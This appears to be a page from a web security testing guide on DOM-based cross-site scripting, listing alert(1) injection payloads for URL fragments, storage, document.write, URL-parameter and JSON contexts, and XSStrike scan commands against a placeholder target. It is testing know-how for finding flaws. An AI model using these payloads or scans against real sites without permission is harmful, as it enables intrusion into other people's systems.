 #### DOM Source Tests

Test common DOM-based XSS sources:

```javascript
# Step 1: Test URL fragments
site.com/page#<img src=x onerror=alert(1)>
site.com/page#javascript:alert(1)

# Step 2: Test localStorage/sessionStorage
> localStorage.setItem('test', '<img src=x onerror=alert(1)>');
> sessionStorage.setItem('test', '<img src=x onerror=alert(1)>');

# Step 3: Test document.write sources
site.com/page?name=<div onmouseover='alert(1)'>
site.com/page?name=</script><script>alert(1)</script>
```

### Using XSStrike

```bash
# Step 1: Basic scan
xsstrike -u "http://target.com/page?param=value"

# Step 2: Advanced scanning options
xsstrike -u "http://target.com/page?param=value" \
  --crawl          # Crawl the target
  --params         # Scan parameters
  --blind          # Test for blind XSS
  --headers        # Test headers
  --vectors        # Use custom vectors
  --skip-dom      # Skip DOM XSS scanning
  
# Step 3: Results analysis
1. Check reported vulnerabilities
2. Verify findings manually
3. Test suggested payloads
```

#### Context Tests

Tests XSS in different DOM contexts:

```javascript
# JavaScript Variable Context
var user = "USER_INPUT";          # String variable
var obj = {"key": "USER_INPUT"};  # Object property
var arr = ["USER_INPUT"];         # Array element

# URL Parameter Context
?param=<script>alert(1)</script>  # Basic URL injection
?param=javascript:alert(1)        # JavaScript protocol
?param=data:text/html,<script>alert(1)</script>  # Data protocol

# JSON Context
{"key":"<script>alert(1)</script>"}  # JSON string
{"key":"</script><script>alert(1)</script>"}  # Script tag break
```
